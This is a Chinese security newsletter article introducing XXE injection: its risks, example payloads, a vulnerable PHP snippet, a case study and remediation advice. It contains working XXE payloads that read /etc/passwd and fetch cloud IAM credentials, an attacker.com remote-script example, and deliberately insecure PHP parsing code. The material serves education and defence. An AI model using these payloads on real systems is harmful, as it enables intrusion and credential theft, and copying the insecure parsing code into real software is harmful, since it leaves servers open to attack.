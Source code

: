 #  【霄享·安全】XML外部实体注入（XXE）漏洞简介（总第50期月刊）   
原创 刘宇凡  上汽集团网络安全应急响应中心   2025-03-28 18:01  
  
![](https://mmbiz.qpic.cn/mmbiz_png/6Hf2gYXNc9VA6we3AZG2Cw5RULoSkXHzXiaPKZCyQYTibkQcU57ib8rBHjoplOQNanwFibDJEAsxYThFlrYlslPHow/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞描述**  
  
XML外部实体注入（XML External Entity Injection，XXE）漏洞是指攻击者通过构造恶意XML数据，利用应用程序未正确配置XML解析器的安全策略，诱导系统执行非授权操作（如文件读取、网络请求、服务端请求伪造等）。  
  
  
1  
  
**漏洞危害**  
  
  
  
**敏感文件读取**  
  
通过定义外部实体并指定file://协议下的文件路径（例如，使用的声明），可利用应用程序的权限非法访问服务器文件，从而导致信息泄露。  
  
  
  
**远程代码执行**  
  
若服务器支持通过URL加载外部实体（如SYSTEM("http://attacker.com/exec.sh")），攻击者可构造恶意脚本并执行，利用服务器权限执行恶意操作，可能导致系统被完全控制或数据被破坏。  
  
  
  
**服务端请求伪造（SSRF）**  
  
利用服务器作为代理，向内部或外部系统发起请求，绕过源IP地址检查机制，实施服务端请求伪造攻击（如探测内网服务、篡改数据）。  
  
  
  
**拒绝服务攻击（DoS）**  
  
通过递归加载大量外部实体或构造超长URL，导致服务器资源耗尽或解析器崩溃。  
  
  
2  
  
**恶意XML示例**  
  
  
  
**读取本地文件**  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>3</storeId>
</stockCheck>
```  
  
**功能**  
：通过file://协议读取本地文件（如/etc/passwd）。  
  
**危害**  
：若XML解析器未禁用外部实体，文件内容将被插入productId元素，可能导致敏感信息泄露。  
  
  
  
**发起HTTP请求**  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "http://16x.2x4.1x9.2x4/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```  
  
**功能**  
：通过HTTP URL获取外部资源（如云服务实例的IAM凭据）。  
  
**危害**  
：若解析器允许访问该URL，可能导致云服务权限被窃取、内网探测等。  
  
  
3  
  
**PHP中的XXE**  
  
  
simplexml_load_string是PHP中用于解析XML数据的函数，默认允许解析外部实体。以下代码直接从php://input读取输入数据并解析，未禁用外部实体解析或进行输入校验，导致XXE漏洞：  
```
<?php
$xml_input = file_get_contents('php://input');
$data = simplexml_load_string($xml_input);
echo $data->username;
?>
```  
  
  
4  
  
**漏洞案例**  
  
  
某电商平台在处理接收用户上传的XML文件、处理Web服务请求（如SOAP）、解析配置文件等场景时。未禁用外部实体解析，攻击者通过注入file://协议读取服务器上的/etc/passwd文件，获取系统用户信息。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/6Hf2gYXNc9VA6we3AZG2Cw5RULoSkXHzjM9KjesUGYNQa7cFibP7Yvq18aalG3P8bYTAc20yJzCPHsuuvNa3cVg/640?wx_fmt=png&from=appmsg "")  
  
利用XXE漏洞读取文件：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/6Hf2gYXNc9VA6we3AZG2Cw5RULoSkXHzNEa9DRtwujibyfichIebhbbdjDs7HLDtDfW89Wvs1aeicBLiclicD5guQQg/640?wx_fmt=png&from=appmsg "")  
  
利用XXE漏洞进行内网探测：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/6Hf2gYXNc9VA6we3AZG2Cw5RULoSkXHz9FUiaSuPCP3wDaMX6CUjxtojOC6UibXYRwYa7z4XaAcm5gd1kiceVJicxQ/640?wx_fmt=png&from=appmsg "")  
  
  
5  
  
**漏洞修复建议**  
  
  
1、禁用外部实体解析，配置XML解析器禁用DTD和外部实体解析，使用安全的XML解析库。  
  
2、对用户输入的XML数据进行严格校验，过滤特殊字符（如声明）  
  
3、确保应用程序以最低权限运行，限制其对文件系统和网络的访问。  
  
4、漏洞扫描及代码审计：定期使用专业工具进行漏洞检测，防患于未然。  
  
5、Web应用防火墙：对网站或APP的业务流量进行恶意特征识别及防护，避免服务器被恶意攻击及入侵。  
  
  
  
  
  
  
  
  
本期专家介绍  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/6Hf2gYXNc9VA6we3AZG2Cw5RULoSkXHzdBWjLHX9onzolYGWsmFNLNTXpjibYwKicJLgRWU2VTa1MFt4MHPIGA5w/640?wx_fmt=jpeg&from=appmsg "")  
  
刘宇凡  
  
  
上海帆一尚行科技有限公司网络安全攻防专家  
  
  
多次参加省市级安全攻防活动，擅长安全防护和渗透测试等网络安全工作  
  
  
部分内容、图片源自网络，如有侵权请与我们联系删除。  
  
  
  
点击下方名片，关注我们 ⬇️  
  
  
  
